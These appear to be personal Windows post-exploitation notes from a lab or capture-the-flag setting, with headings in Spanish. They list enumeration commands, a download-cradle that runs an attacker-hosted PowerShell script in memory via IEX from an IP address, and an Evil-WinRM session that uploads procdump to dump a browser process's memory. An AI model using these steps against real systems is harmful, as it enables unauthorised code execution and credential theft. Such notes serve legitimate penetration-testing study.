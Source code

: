 ### PSDRIVE
```shell
powershell -c get-psdrive
```

### SYSTEMINFO
```shell
systeminfo
```



# PROCESOS
### COMANDOS
```shell
# VIA COMANDOS
tasklist /v

netstat

net start

sc query

Get-Service

Get-Process
get-process -name AggregatorHost
```


### Get-WinEventData
```shell
❯ wget https://raw.githubusercontent.com/RamblingCookieMonster/PowerShell/refs/heads/master/Get-WinEventData.ps1
❯ sudo python3 -m http.server 80

PS C:\ProgramData> IEX(New-Object Net.WebClient).downloadString("http://10.10.16.5/Get-WinEventData.ps1")
PS C:\ProgramData> Get-WinEvent -FilterHashtable @{Logname='security';id=4688} -MaxEvents 1 | Get-WinEventData | fl *
```


### MEMORIA EN PROCESOS
```shell
❯ wget https://download.sysinternals.com/files/Procdump.zip
❯ unzip Procdump.zip
*Evil-WinRM* PS C:\Windows\Temp\recon> upload procdump.exe
*Evil-WinRM* PS C:\Windows\Temp\recon> ./procdump.exe -ma 6524 firefox.dmp
```
